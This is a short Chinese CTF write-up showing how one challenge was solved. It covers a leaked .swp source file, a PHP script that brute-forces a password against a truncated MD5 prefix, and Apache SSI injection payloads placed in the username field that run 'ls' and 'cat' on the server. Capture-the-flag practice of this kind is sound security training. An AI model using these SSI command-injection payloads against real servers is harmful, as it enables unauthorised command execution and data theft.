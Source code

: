 # 知识点:

# 1.文件扫描。swp源码泄露

# 2. Apache SSI 远程命令执行漏洞

https://www.cnblogs.com/yuzly/p/11226439.html



# 1.目录扫描得到/idnex.php.swp

# 访问得到源码：

```javascript
<?php
   ob_start();
   function get_hash(){
      $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
      $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
      $content = uniqid().$random;
      return sha1($content);
   }
    header("Content-Type: text/html;charset=utf-8");
// ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
         ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
         echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";

    }else
    {
   ***
    }
   ***
?>
```



# 2. 发现不管username为任何值，只要password的MD5值的前6位为：6d0bc1即可登陆成功

脚本爆破符合的password:

```javascript
<?php

$i=0;
while (1){
    $i++;
    if(substr(md5($i),0,6)==='6d0bc1'){
        echo $i;
        break;
    }
}
```



# 3. 登陆之后发现响应头有信息

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2150E9FC532C469D8DACA52F5579B5EFclipboard.png)



联想到Apache SSI 远程命令执行漏洞，apache开启SSI与CGI支持,我们就可以上传shtml,利用<!--#exec cmd=”id” -->语法执行命令。



# 4. 访问响应头文件得到

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/8A77908A17E24FF7938FE3261B075A23clipboard.png)



会将username回显,说明也许将username存入shtml文件



# 5. payload:

```javascript
username=<!--#exec cmd="ls"-->&password=2020666
```



```javascript
username=<!--#exec cmd="ls ../"-->&password=2020666
```



```javascript
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
```

